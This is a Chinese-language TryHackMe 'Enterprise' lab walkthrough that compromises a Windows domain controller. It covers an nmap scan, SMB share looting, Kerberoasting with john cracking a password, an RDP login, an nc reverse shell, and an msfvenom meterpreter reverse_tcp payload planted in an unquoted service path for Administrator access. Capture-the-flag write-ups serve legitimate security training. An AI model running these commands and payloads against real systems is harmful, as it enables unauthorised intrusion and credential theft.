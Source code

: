 ```yaml
---
sidebar_position: 171
tags: [Easy, Windows, Kerberos, PATH-Windows]
title: "Enterprise"
description: "Enterprise"
sidebar_label: "Enterprise"
slug: /tryhackme/171
---
```


# Enterprise

## 端口扫描

```bash
root@ip-10-10-110-123:~/enterprise# nmap -sTCV -p- --min-rate 1000 10.10.213.49

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-29 08:52 GMT
Nmap scan report for ip-10-10-213-49.eu-west-1.compute.internal (10.10.213.49)
Host is up (0.00024s latency).
Not shown: 65507 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-29 08:53:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=LAB-DC.LAB.ENTERPRISE.THM
| Not valid before: 2023-10-28T08:48:46
|_Not valid after:  2024-04-28T08:48:46
|_ssl-date: 2023-10-29T08:54:09+00:00; 0s from scanner time.
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7990/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Log in to continue - Log in with Atlassian account
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:E1:2C:63:C0:1B (Unknown)
Service Info: Host: LAB-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: LAB-DC, NetBIOS user: <unknown>, NetBIOS MAC: 02:e1:2c:63:c0:1b (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-10-29 08:54:09
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.01 seconds
```

:::info
🔥 我们可以确定域名为 : `LAB.ENTERPRISE.THM`


:::

## SMB

![image-20240709202826293](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202827.png)

- `Docs` : 给了两个文件但是都是加密内容无法解密
- `Users` : 对应的就是 `C:\Users` 目录, 自然我们可以利用此快速获取到用户的名称 (之后我尝试 kerberos 利用可惜失效)

 我们可以在此获取到一个账号, 但是可惜并没有什么用

```bash
smb: \LAB-ADMIN\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\> ls
  .                                   D        0  Fri Mar 12 04:00:39 2021
  ..                                  D        0  Fri Mar 12 04:00:39 2021
  Consolehost_hisory.txt              A      424  Fri Mar 12 03:51:46 2021

		15587583 blocks of size 4096. 9900318 blocks available
smb: \LAB-ADMIN\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\> get Consolehost_hisory.txt 
getting file \LAB-ADMIN\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\Consolehost_hisory.txt of size 424 as Consolehost_hisory.txt (103.5 KiloBytes/sec) (average 103.5 KiloBytes/sec)
```

![image-20240709202831706](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202833.png)

## 7990

我在查看 80 端口无果后, 查看此页面, 发现其显示正在迁移到 github [Enterprise.THM](https://github.com/Enterprise-THM)

![image-20240709202842087](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202843.png)

从其存储库中我得到了一个账号

![image-20240709202849590](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202851.png)

## Kerberos

![image-20240709202946086](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202947.png)

```bash
root@ip-10-10-139-192:~#  john hash.txt --wordlist=`locate rockyou.txt`
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
littleredbucket  (?)
1g 0:00:00:02 DONE (2023-10-29 10:36) 0.3690g/s 579447p/s 579447c/s 579447C/s livelife92..littled8
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## 后渗透

### bitbucket

使用得到的账号进行登陆 bitbucket 我发现无法登陆 winrm 服务但是可以登陆 RDP 服务

```bash
root@ip-10-10-139-192:~# xfreerdp /v:10.10.200.231 /u:bitbucket /p:littleredbucket
```

登陆之后我上传了 nc 获取了一个反向 Shell

### bitbucket —> Administrator

上次 winpeas 进行执行我发现其中存在一个 PATH 路径注入

![image-20240709203002111](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203003.png)

制作木马进行上传到 目标进行执行 我上传到了 `C:\Program Files (x86)\Zero Tier\Zero.exe`

```bash
root@ip-10-10-139-192:~/Test# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.139.192 LPORT=9999 -f exe --arch x64 --platform windows > Zero.exe
```

上传后重启服务

```bash
PS C:\Program Files (x86)\Zero Tier> Stop-Service zerotieroneservice
PS C:\Program Files (x86)\Zero Tier> Start-Service zerotieroneservice
```

之后我们就可以得到一个 Shell (遗憾的是这个 Shell 超级不稳定只有一分钟左右)

![image-20240709203007743](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203009.png)